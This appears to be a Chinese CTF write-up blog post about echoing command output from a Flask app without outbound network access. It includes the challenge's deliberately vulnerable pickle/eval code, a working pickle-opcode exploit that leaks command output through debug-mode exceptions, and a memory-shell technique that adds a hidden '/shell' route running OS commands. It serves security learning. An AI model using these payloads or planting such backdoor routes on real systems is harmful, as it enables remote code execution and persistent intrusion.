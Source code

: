 ```yaml
---
title: flask不出网回显方式
tags:
  - python
  - flask
---
```


# flask不出网回显方式
## 前言
研究这个问题主要是打比赛的时候遇到了，题目内容大概是这样的
```python
# app.py
from flask import Flask, request, session, render_template_string, url_for, redirect
import pickle
import io
import sys
import base64
import random
import subprocess
from config import notadmin

app = Flask(__name__)


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("'%s.%s' not allowed" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()


@app.route('/')
def index():
    info = request.args.get('name', '')
    if info is not '':
        x = base64.b64decode(info)
        User = restricted_loads(x)
    return render_template_string('Hello')



if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=5000)
```
```python
# config.py
notadmin = {"admin": "no"}


def backdoor(cmd):
    if notadmin["admin"] == "yes":
        s = ''.join(cmd)
        eval(s)

```
可以看出来是个简单的pickle反序列化，这不是本次的重点，重点是这道题在eval后如何回显，最简单的方式想到的是反弹shell，但是经过测试发现目标机器并不出网，所以我们需要寻找其他的方式去让我们的命令回显

## debug模式下利用报错
众所周知，在flask中如果开启了debug模式，报错是会显示详细信息的，比赛中debug模式通常考点是构造pin码，但是我们这里想到，可以通过手动控制报错的方式来让我们的命令回显。

简单地构造exp，这里需要注意的是eval并不能执行python语句，所以我们需要利用eval去调用exec来实现手动抛出报错
```python
from base64 import b64encode
from urllib.parse import quote


def base64_encode(s: str, encoding='utf-8') -> str:
    return b64encode(s.encode()).decode(encoding=encoding)


exc = "raise Exception(__import__('os').popen('whoami').read())"
exc = base64_encode(exc).encode()

opcode = b'''cconfig
notadmin
(S'admin'
S'yes'
u0(cconfig
backdoor
(S'exec(__import__("base64").b64decode(b"%s"))'
lo.''' % (exc)

print(quote(b64encode(opcode).decode()))
```

![](https://gitee.com/guuest/images/raw/master/img/20211024113458.png)

可以看到我们成功通过Exception去拿到了回显

## 非debug模式下利用内存马
这里了参考文章: [iceyhexman/flask_memory_shell](https://github.com/iceyhexman/flask_memory_shell)
这篇文章是ssti下如何利用flask去添加一个后门路由，我们可以参考他的想法来尝试获取app添加后门路由，这里一个难点是如何拿到正在运行的app

### 失败的尝试: 直接import模块获取app
一开始想到的方法是直接`import app.py`来获取app，但是事实证明此app非彼app，添加了路由但是并不能访问到，应该是一个全新的app
### 成功的尝试: sys.modules
> sys.modules是一个全局字典，该字典是python启动后就加载在内存中。每当程序员导入新的模块，sys.modules都将记录这些模块。字典sys.modules对于加载模块起到了缓冲的作用。当某个模块第一次导入，字典sys.modules将自动记录该模块。当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度。

所以我们可以通过sys.modules拿到当前已经导入的模块，并且获取模块中的属性，由于我们最终的eval是在app.py中执行的，所以我们可以通过`sys.modules['__main__']`来获取当前的模块，我们写个简单的测试来看看上面的app与实际的app是否相同
```python
import sys
import app
app1 = sys.modules['__main__'].__dict__['app']
app2 = app.app
print(id(app1))
print(id(app2))
```

![](https://gitee.com/guuest/images/raw/master/img/20211024114600.png)

可以看到app的id并不相同，所以他们并非相同的app

这里我们尝试直接添加后门路由，会发现存在报错
```python
import sys
import os
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :os.popen('dir').read())
```

![](https://gitee.com/guuest/images/raw/master/img/20211024114744.png)

这个报错是由于我们在第一个请求处理后调用了设置函数(add_url_rule)，此报错只会在debug模式下触发，可以参考使用了Flask框架的工具的issue:
- https://github.com/alexmclarty/mirror/issues/6
- https://github.com/pallets/flask/issues/2616

所以我们需要在非debug模式下才能成功添加后门路由(又或者我们直接设置debug=False来解决这个问题)
```python
import sys
sys.modules['__main__'].__dict__['app'].debug=False
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :__import__('os').popen('dir').read())
```

![](https://gitee.com/guuest/images/raw/master/img/20211024115906.png)